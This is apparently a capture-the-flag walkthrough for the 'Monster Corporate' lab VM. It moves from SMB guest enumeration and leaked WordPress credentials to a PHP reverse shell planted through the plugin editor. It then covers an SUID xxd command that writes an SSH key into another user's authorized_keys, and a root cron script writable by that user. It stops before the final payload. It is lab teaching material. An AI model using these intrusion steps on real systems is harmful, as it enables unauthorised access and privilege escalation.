Monster Corporate is a boot-to-root lab that rewards careful enumeration more than exploit hunting. The path starts with an exposed SMB share, moves through WordPress admin access and plugin-based RCE, then uses a SUID `xxd` permission issue and a writable root cron script to finish the box.

## Challenge description


## Full attack chain summary

### Initial foothold

Find WordPress admin credentials in an SMB share, log in to wp-admin, use plugin editing for RCE, and gain a shell as `www-data`.

### Lateral movement

Find an active SUID bit on `xxd`, write an SSH key for `boboyot`, and log in as that user.

### Privilege escalation

Find a root cron job running a backup script, confirm `boboyot` can write to that script, and use it to gain a root shell.

## VM setup

1. Open the VM artifact in VMware (preferred) or VirtualBox.
2. Make sure the attack box and target machine both use a host-only network.



1. Power on the target machine.
2. Start hacking from your Kali machine.

### Identify your attack-box IP and target IP

Run `ifconfig` to identify the attack-box interface.

```bash
ifconfig
br-027bd027cace: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 172.18.0.1  netmask 255.255.0.0  broadcast 172.18.255.255
        ether 02:42:cd:7b:07:03  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

docker0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:c7:14:f0:c0  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 2 overruns 0  carrier 0  collisions 0

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.106.128  netmask 255.255.255.0  broadcast 192.168.106.255
        inet6 fe80::4b6e:3699:9616:da69  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:8c:03:70  txqueuelen 1000  (Ethernet)
        RX packets 152  bytes 11602 (11.3 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 555  bytes 34810 (33.9 KiB)
        TX errors 0  dropped 1 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 44  bytes 2796 (2.7 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 44  bytes 2796 (2.7 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Attack-box IP (eth0): 192.168.106.128

To identify the target machine IP, run a host discovery scan.

```bash
nmap 192.168.106.0/24 -sn 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-10 23:54 -0400
Nmap scan report for 192.168.106.1
Host is up (0.00042s latency).
MAC Address: 00:50:56:C0:00:01 (VMware)
Nmap scan report for 192.168.106.129
Host is up (0.00057s latency).
MAC Address: 00:0C:29:25:F6:2F (VMware)
Nmap scan report for 192.168.106.254
Host is up (0.00022s latency).
MAC Address: 00:50:56:E4:DC:88 (VMware)
Nmap scan report for 192.168.106.128
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 12.43 seconds
```

Target machine IP: 192.168.106.129

## Service discovery

Run an initial Nmap scan to discover open ports on the target IP.

```bash
nmap 192.168.106.129 -sV -oN initial.txt    

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 10.0p2 Ubuntu 5ubuntu5 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.64 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
```

We discover four open ports: 22, 80, 139, and 445.

Continue with default scripts to gather more service information.

```bash
nmap 192.168.106.129 -sV -sC -oN second.txt            

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 10.0p2 Ubuntu 5ubuntu5 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.64 ((Ubuntu))
|_http-generator: WordPress 6.9.1
|_http-server-header: Apache/2.4.64 (Ubuntu)
|_http-title: Monster
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
MAC Address: 00:0C:29:25:F6:2F (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -1h27m26s
| smb2-time: 
|   date: 2026-03-11T02:39:13
|_  start_date: N/A
|_nbstat: NetBIOS name: MONSTER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
```

From the scan, we can conclude that the Linux target is running SSH, HTTP, and SMB. The website is using WordPress.

SMB is a good place to start because shared folders often contain useful information.

### Enumerating SMB

We can list SMB shares if the service accepts guest login.

```bash
smbclient -L //192.168.106.129 -N

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        publicshare     Disk      
        IPC$            IPC       IPC Service (monster server (Samba, Ubuntu))
```

The server accepts guest login.

We find `publicshare`, which is not a default share.

Try connecting to `publicshare`:

```bash
smbclient //192.168.106.129/publicshare -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar  5 10:42:02 2026
  ..                                  D        0  Thu Mar  5 10:42:02 2026
  note.txt                            N       98  Thu Mar  5 10:40:59 2026
```

Use `ls` to list files in the share.

The share contains `note.txt`. Download and read it.

```bash
smb: \> get note.txt
getting file \note.txt of size 98 as note.txt (13.7 KiloBytes/sec) (average 13.7 KiloBytes/sec)
smb: \> quit
cat note.txt
Dear gempa,

Here is your default password "KUasa#lemt4l". Please change it later.

From: boboyot
```

We found credentials in SMB, but we still need to find where to use them.

Next, enumerate the web service.

### Enumerating website

Open the website in a browser.



Just a normal blog, nothing interesting here.

Since we know the website is using WordPress, we can directly access `wp-login.php`.

If you do not know the endpoint, fuzz the site with a tool such as `dirsearch`.

```bash
dirsearch -u http://192.168.106.129                                                     
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/Desktop/ctf/26-divideCTF/reports/http_192.168.106.129/_26-03-11_00-31-43.txt

Target: http://192.168.106.129/

[00:31:44] Starting: 
[00:31:45] 403 -  280B  - /.ht_wsr.txt
[00:31:45] 403 -  280B  - /.htaccess.bak1
[00:31:45] 403 -  280B  - /.htaccess.sample
[00:31:45] 403 -  280B  - /.htaccess.save
[00:31:45] 403 -  280B  - /.htaccess.orig
[00:31:45] 403 -  280B  - /.htaccess_orig
[00:31:45] 403 -  280B  - /.htaccess_sc
[00:31:45] 403 -  280B  - /.htaccess_extra
[00:31:45] 403 -  280B  - /.htaccessBAK
[00:31:45] 403 -  280B  - /.htaccessOLD
[00:31:45] 403 -  280B  - /.htaccessOLD2
[00:31:45] 403 -  280B  - /.htm
[00:31:45] 403 -  280B  - /.html
[00:31:45] 403 -  280B  - /.htpasswd_test
[00:31:45] 403 -  280B  - /.htpasswds
[00:31:45] 403 -  280B  - /.httr-oauth
[00:31:47] 403 -  280B  - /.php
[00:31:56] 301 -    0B  - /index.php  ->  http://192.168.106.129/
[00:31:56] 404 -   66KB - /index.php/login/
[00:31:57] 200 -    7KB - /license.txt
[00:32:01] 200 -    3KB - /readme.html
[00:32:02] 403 -  280B  - /server-status
[00:32:02] 403 -  280B  - /server-status/
[00:32:06] 301 -  321B  - /wp-admin  ->  http://192.168.106.129/wp-admin/
[00:32:06] 400 -    1B  - /wp-admin/admin-ajax.php
[00:32:06] 302 -    0B  - /wp-admin/  ->  http://192.168.106.129/wp-login.php?redirect_to=http%3A%2F%2F192.168.106.129%2Fwp-admin%2F&reauth=1
[00:32:06] 409 -    3KB - /wp-admin/setup-config.php
[00:32:06] 200 -  505B  - /wp-admin/install.php
[00:32:06] 200 -    0B  - /wp-config.php
[00:32:06] 301 -  323B  - /wp-content  ->  http://192.168.106.129/wp-content/
[00:32:06] 200 -    0B  - /wp-content/
[00:32:06] 200 -   84B  - /wp-content/plugins/akismet/akismet.php
[00:32:06] 200 -    0B  - /wp-content/plugins/hello.php
[00:32:06] 200 -  458B  - /wp-content/uploads/
[00:32:07] 301 -  324B  - /wp-includes  ->  http://192.168.106.129/wp-includes/
[00:32:07] 200 -    0B  - /wp-includes/rss-functions.php
[00:32:07] 200 -    0B  - /wp-cron.php
[00:32:07] 200 -    4KB - /wp-includes/
[00:32:07] 200 -    2KB - /wp-login.php
[00:32:07] 302 -    0B  - /wp-signup.php  ->  http://192.168.106.129/wp-login.php?action=register
[00:32:07] 405 -   42B  - /xmlrpc.php
```

Go to `wp-login.php` and test the credentials found earlier.



From the `note.txt` file found earlier:

```bash
Dear gempa,

Here is your default password "KUasa#lemt4l". Please change it later.

From: boboyot
```

Log in with username `gempa` and password `KUasa#lemt4l`.



Good news: the credentials work for wp-admin.

Next, check what permissions the `gempa` user has.



## Initial foothold

The `gempa` user is a WordPress administrator. To get the initial foothold, we can use plugin editing to achieve RCE.



There are two inactive plugins. I use Hello Dolly.

Activate the plugin first.

Then go to Tools, open Plugin File Editor, select Hello Dolly from the top-right dropdown, and click Select.



Then use a PHP reverse shell payload to get a shell. I generated the payload with [revshells.com](http://revshells.com).



Set your attack-box IP address and port to listen.

Copy the PHP code, paste it into the `hello.php` editor, and update the file.



Before executing the shell, set up a listener on the port used in the payload.

I use port 8888 with netcat.

```bash
nc -lvnp 8888                               
listening on [any] 8888 ...
```

The listener is ready. Now execute the payload.

Navigate to [http://192.168.106.129/wp-content/plugins/hello.php](http://192.168.106.129/wp-content/plugins/hello.php) to trigger the shell.

If you are unsure where this path came from, check the `dirsearch` result from earlier.



If the browser request hangs, check your listener.

The listener receives a reverse shell.

```bash
nc -lvnp 8888
listening on [any] 8888 ...
connect to [192.168.106.128] from (UNKNOWN) [192.168.106.129] 33024
Linux monster 6.17.0-14-generic #14-Ubuntu SMP PREEMPT_DYNAMIC Fri Jan  9 17:01:16 UTC 2026 x86_64 GNU/Linux
 15:20:39 up 28 min,  0 users,  load average: 0.15, 0.17, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU  WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1902): Inappropriate ioctl for device
bash: no job control in this shell
www-data@monster:/$ whoami
whoami
www-data
www-data@monster:/$ 
```

We now have a shell as `www-data`.

## Lateral movement

Usually, `www-data` does not have enough privileges, so we need to escalate.

For post-exploitation enumeration, you can use LinPEAS, but I will show the manual path first.

After entering the system, gather as much useful information as possible.

Basic checklist:

- another system user
- sudo -l
- SUID
- cronjob
- any misconfigured binary

Find other users on the system.

```bash
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
boboyot:x:1000:1000:boboyot:/home/boboyot:/bin/bash
...

```

Look for users with a shell, or list the `/home` directory.

```bash
ls -la /home
total 12
drwxr-xr-x  3 root    root    4096 Mar  5 11:01 .
drwxr-xr-x 20 root    root    4096 Mar  6 00:54 ..
drwxr-x--- 15 boboyot boboyot 4096 Mar  5 14:53 boboyot
```

Check sudo permissions with `sudo -l`.

```bash
sudo -l
sudo-rs: Sorry, user www-data may not run sudo on monster.
```

`www-data` has no sudo privileges.

Find active SUID binaries.

```bash
find / -type f -perm -04000 -ls 2>/dev/null
...
    27896      8 -rwsr-sr-x   1 boboyot  boboyot        7180 Nov 26  2024 /usr/lib/nagios/plugins/check_log
...
     1145     24 -rwsr-sr-x   1 boboyot  boboyot       22896 Sep 15 16:38 /usr/bin/xxd

```

We find an interesting SUID binary.

The result shows an active SUID bit on `xxd`, which is a useful escalation vector.

Open [GTFOBins](https://gtfobins.org/) to find useful commands for this binary.



With this path, we can read and write as `boboyot`, but it does not directly give us a shell.

Remember from the port scan that SSH is open. We can write an SSH key and log in as `boboyot`.

To write an SSH public key, adapt the command from GTFOBins.



Generate an SSH key pair on the attack box.

```bash
ssh-keygen -t ED25519 -f boboyot  
Generating public/private ED25519 key pair.
Enter passphrase for "boboyot" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in boboyot
Your public key has been saved in boboyot.pub
The key fingerprint is:
SHA256:SmptK1/jJTCWZjp5tLhQci2ccDFGoHHMp3nDMM3N8O8 kali@kali
The key's randomart image is:
+--[ED25519 256]--+
|.oo=*+           |
| +=.++o          |
|. .B. .          |
|  o++o o         |
|  ..*.@ S        |
|   + & *         |
|  . B * E .      |
|   o.= + +       |
|    .oo .        |
+----[SHA256]-----+
```

Copy the generated public key.

```bash
cat boboyot.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA7xEqLulOEHxYpKn8JKZ9GyF2tkJ/woSOtphzd5kcFD kali@kali

```

On the target machine, use `xxd` to write the public key into `authorized_keys`.

Customize the command to write the SSH public key to `/home/boboyot/.ssh/authorized_keys`.

```bash
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA7xEqLulOEHxYpKn8JKZ9GyF2tkJ/woSOtphzd5kcFD kali@kali\n" | xxd | xxd -r - /home/boboyot/.ssh/authorized_keys
```

Run the command on the target machine.

After the overwrite succeeds, SSH as `boboyot`.

Return to the attack machine and log in with the private key.

```bash
ssh boboyot@192.168.106.129 -i boboyot
Welcome to Ubuntu 25.10 (GNU/Linux 6.17.0-14-generic x86_64)

 * Documentation:  https://docs.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Wed Mar 11 16:17:16 UTC 2026

  System load: 0.58               Memory usage: 51%   Processes:       305
  Usage of /:  41.8% of 17.83GB   Swap usage:   0%    Users logged in: 0

 * Due to a now-resolved bug in the date command, this system may be unable
   to automatically check for updates. Manually install the update using:

     sudo apt install --update rust-coreutils

   https://discourse.ubuntu.com/t/enabling-updates-on-ubuntu-25-10-systems/

0 updates can be applied immediately.

boboyot@monster:~$ 
```

We now have a shell as `boboyot`.

## Privilege escalation to root

Continue with the post-exploitation checklist:

- [x]  another system user
- [ ]  sudo -l
- [x]  SUID
- [ ]  cronjob
- [ ]  any misconfigured binary

There are still a few items to check.

Start with `sudo -l`.

```bash
sudo -l
sudo-rs: Sorry, user boboyot may not run sudo on monster.
```

`boboyot` does not have sudo permissions.

Proceed to check cron jobs.

```bash
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
# You can also override PATH, but by default, newer versions inherit it from the environment
#PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6    * * 7   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6    1 * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
#
* * * * * root /opt/backup.sh
```

We find a root cron job.

Analyze `/opt/backup.sh`.

```bash
ls -la /opt/backup.sh
-rwxrw---- 1 root boboyot 95 Mar  6 01:03 /opt/backup.sh

cat /opt/backup.sh
rm /opt/backup/*.tar.gz;tar -czf /opt/backup/boboyot_home_$(date +%Y%m%d).tar.gz /home/boboyot
```

This is a normal backup script for the `boboyot` home directory.

From the file permissions, the `boboyot` group can write to `/opt/backup.sh`.

That means we can modify the script and use the root cron job to spawn a root shell.

There are several ways to spawn a root shell.

I prefer using a reverse shell because the script runs every minute.

This gives us a reliable way to catch the root shell from the attack box.

Generate another payload with [revshells.com](http://revshells.com).

